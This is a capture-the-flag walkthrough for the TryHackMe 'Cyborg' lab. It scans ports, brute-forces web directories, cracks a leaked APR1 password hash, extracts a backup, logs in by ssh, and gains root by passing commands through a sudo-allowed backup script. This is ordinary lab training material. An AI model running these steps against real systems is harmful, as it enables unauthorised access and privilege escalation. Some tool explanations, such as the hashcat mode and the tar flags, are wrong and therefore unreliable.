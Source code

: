 # TRYHACKME – Cyborg (CTF)

![6cc3e134a104210f90367c6557e42b6e.jpeg](img/995dbcf2-4ed1-441d-bde4-bdacabe5636a.png)

![Difficulty.csv](img/Difficulty%2011d906d6ee19808b98d8c82328d0d3be.csv)

Use nmap tool to scan target ports

**`nmap 10.10.23.140`**

![Untitled.png](img/Untitled.png)

Port: Services:

22     ssh (Secure Shell)

80     http (Hypertext Transfer Protocol)

Use gobuster tool to brute-force directories on web servers

`gobuster dir -u http://10.10.23.140 -w /usr/share/seclists/Discovery/Web-Content/common.txt`

> dir –> to search for directories

> -u –> specify the URL

> -w –> path to the worldlist

![2024-10-12 02_44_02-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_44_02-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Directories found:

/admin

/etc

![2024-10-12 02_45_55-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_45_55-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_47_02-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_47_02-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_47_53-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_47_53-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**Identify the hash type**

**`hash-identifier`** 

**> hash** –> **$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.**

![2024-10-12 02_49_47-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_49_47-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**hash type: md5(APR)**

Crack hash using hashcat tool

**`hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`**

> -m –> specifies the hash type (1600 – md5 APR)

> -a –> specifies the attack mode (0 – brute force)

![2024-10-12 02_51_27-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_51_27-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_55_34-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_55_34-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Unzip the file

**`tar –xf archive.tar`**

> -xf –> used to extract .rar files

![2024-10-12 02_56_19-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_56_19-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_57_22-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_57_22-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_56_19-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_56_19-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox%201.png)

**`cat README`**

Give as a hint to search for BorgBackup tool

Download borgbackup tool

**`apt install borgbackup –y`**

Extract files with borg

**`sudo borg extract Downloads/home/field/dev/final_archive::music_archive`**

Use the previous cracked  password

**`cat note.txt`**

![2024-10-12 03_02_04-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_02_04-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Connect to the target machine via ssh

**`ssh alex@10.10.159.75`**

![2024-10-12 03_03_59-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_03_59-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`cat user.txt`**

![2024-10-12 03_05_03-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_05_03-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

List the user privileges to see what we can do with this user

**`sudo -l`**

![2024-10-12 03_06_23-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_06_23-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

alex can run this script as “sudo”

`cd /etc/mp3backups`

![2024-10-12 03_11_51-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_11_51-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`cat backup.sh`**

![2024-10-12 03_13_07-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_13_07-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Optional arguments can be passed through this instruction (OPTARG) 

List directories on root

**`sudo ./backup.sh -c “ls /root”`**

> -c –> pass a command

![2024-10-12 03_20_07-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_20_07-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`sudo ./backup.sh -c “cat /root/root.txt”`**

![2024-10-12 03_21_40-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_21_40-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

